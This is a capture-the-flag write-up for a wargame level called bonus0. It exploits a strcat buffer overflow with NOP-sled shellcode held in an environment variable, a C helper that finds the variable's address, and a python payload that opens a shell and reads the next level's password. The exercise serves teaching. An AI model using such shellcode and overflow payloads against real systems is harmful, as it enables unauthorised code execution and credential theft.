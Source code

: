 # Bonus0

> For introductory information on this operating system and binary securities, check [here](./Ressources/README.md).

Let's see what does the binary do.

```shell
  $> ./bonus0
    -
  
    -
  
  $> ./bonus0
    - 
  teststring
    -
  salut
  teststring salut
```

> Seems like this program want us to input two string before printing them out.

Using [`gdb`](https://linux.die.net/man/1/gdb), we can dig through the binary to understand what's going on (full analysis [here](./Ressources/gdb.md)). After a closer look, we can see that this program is using `strcat()` known for its overflow overruns.

For this exploit, we need:

- Tinkering a [Shellcode](https://en.wikipedia.org/wiki/Shellcode) and get its address.
- Find the offset of one buffer to inject it (**9** bytes in our case).

> We need to use a Shellcode in this situation because our buffer are **20** bytes long, we need **12** bytes at minimum to perform a [ret2libc](https://infosecwriteups.com/ret2libc-attack-in-lin-3dfc827c90c3) attack as we did previously but we only have **11** bytes here.

Let's get the shellcode from [this article](https://0xrick.github.io/binary-exploitation/bof5/) but more working ones can be found on [shell-storm](http://shell-storm.org/shellcode/) or [exploit-db](https://www.exploit-db.com/).

```shell
$> export SHELLCODE=`python -c 'print("\x90" * 1000 + "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80")'`
```

> Using a lot of `NOP` instructions before the Shellcode helps us to consistently find it even if the environment address shifts a bit as `NOP` instruction will only indicate to go to the next one until we find the first "real" instruction.

Then, we'll need to find where this environment variable is stored in memory. For that nothing really difficult...

```C
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char** argv)
{
  printf("env address at %p\n", getenv(argv[1]));
  return (0);
}
```

> Using this program with `SHELLCODE` as parameter will output where this environment variable is stored in memory.

Now all we have to do is filling up the first buffer with **4096** bytes, shift **9** bytes into the second one, input the address of the Shellcode and fill the remaining space with junk (7 **bytes**) to get a shell.
```shell
  $> (python -c "print '\x90' * 4095 + '\n' + '\x90' * 9 + '\xXX\xXX\xXX\xXX'[::-1] + '\x90' * 7"; cat) | ./bonus0
   -
   -
  r r
  $ cat /home/user/bonus1/.pass
  cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

So next user credentials pair is `bonus1:cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9`.

Check [here](./source.c) for reproduction source-code of this binary.